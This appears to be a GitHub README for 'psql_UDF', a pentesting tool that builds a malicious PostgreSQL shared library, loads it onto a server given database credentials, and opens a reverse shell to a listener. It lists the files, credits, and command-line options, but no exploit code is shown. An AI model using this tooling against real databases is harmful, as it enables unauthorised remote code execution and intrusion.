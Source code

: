 # psql_UDF

This repo includes 4 files:

    pg_exec.c  (file for creating .so, you should use docker with a compatible version of postgresql)

    psql_so_loader_auto.py (script to load .so lib on the postgresql server if you have rights)

    psql_so_loader_auto_v2.py (the same script but with socket server for reverse shell)

    server_for_pg.py (just alone socket server for reverse shell)




Thanks a lot those people:

   https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions

   https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/big-binary-files-upload-postgresql

   https://github.com/nixawk/pentest-wiki/blob/master/2.Vulnerability-Assessment/Database-Assessment/postgresql/postgresql_hacking.md

   https://gist.github.com/0xabe-io/916cf3af33d1c0592a90

   https://xakep.ru/2020/04/14/python-reverse-shell/#toc03.1




USAGE:

python psql_so_loader_auto_v2.py [-h] [-p PASSWORD] [-u USERNAME] [-d DATABASE] [-H HOSTNAME] [-P PORT] [-rh RHOST] [-rp RPORT] -f FILENAME

options:
 
    -h, --help            show this help message and exit
 
    -p PASSWORD, --password PASSWORD
                        pass for postgresql
 
    -u USERNAME, --username USERNAME
                        user for postgresql
 
    -d DATABASE, --database DATABASE
                        database for postgresql
 
    -H HOSTNAME, --hostname HOSTNAME
                        hostname or IP for postgresql
 
    -P PORT, --port PORT  database for postgresql
 
    -rh RHOST, --rhost RHOST
                        ip of host listen reverse
 
    -rp RPORT, --rport RPORT
                        port of host listen reverse
 
    -f FILENAME, --filename FILENAME
                        file name of lib.so

